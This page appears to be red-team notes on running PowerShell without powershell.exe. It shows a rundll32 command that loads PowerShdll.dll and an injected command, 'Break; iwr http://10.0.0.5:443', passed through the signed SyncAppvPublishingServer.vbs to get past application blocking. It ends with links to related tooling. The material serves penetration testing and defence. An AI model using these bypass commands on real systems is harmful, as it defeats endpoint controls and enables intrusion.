 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```

![](../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

{% embed data="{\"url\":\"https://github.com/p3nt4/PowerShdll\",\"type\":\"link\",\"title\":\"p3nt4/PowerShdll\",\"description\":\"Run PowerShell with rundll32. Bypass software restrictions. - p3nt4/PowerShdll\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars0.githubusercontent.com/u/19682240?s=400&v=4\",\"width\":345,\"height\":345,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/\",\"type\":\"link\",\"title\":\"How malware can use Powershell without powershell.exe - SAFE-Cyberdefense\",\"description\":\"Microsoft allows to execute Powershell scripts without calling powershell.exe. More and more cyberattacks and ransomwares use this type of technique to damage your system. See how this attack works and how SAFE Endpoint Security prevent it.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://safe-cyberdefense.com/wp-content/uploads/2017/09/cropped-favicon-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://safe-cyberdefense.com/wp-content/uploads/2018/01/PowershellAlternative.jpg\",\"width\":743,\"height\":619,\"aspectRatio\":0.8331090174966352}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=7tvfb9poTKg\",\"type\":\"video\",\"title\":\"Unmanaged PowerShell - PowerShell without powershell.exe\",\"description\":\"This video demonstrates the unmanaged PowerShell features in Cobalt Strike\'s Beacon payload. The powerpick command lets you run powershell scripts without powershell.exe. The psinject command lets you inject a PowerShell instance + script into a specific process.\\n\\nThe original POC:\\nhttps://github.com/leechristensen/UnmanagedPowerShell\\n\\nJustin Warner\'s post on PowerPick and ReflectivePick:\\nhttps://www.sixdub.net/?p=367\\n\\nBeacon:\\nhttps://www.cobaltstrike.com/help-beacon\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/7tvfb9poTKg/mqdefault.jpg\",\"width\":320,\"height\":180,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/7tvfb9poTKg?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/7tvfb9poTKg?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

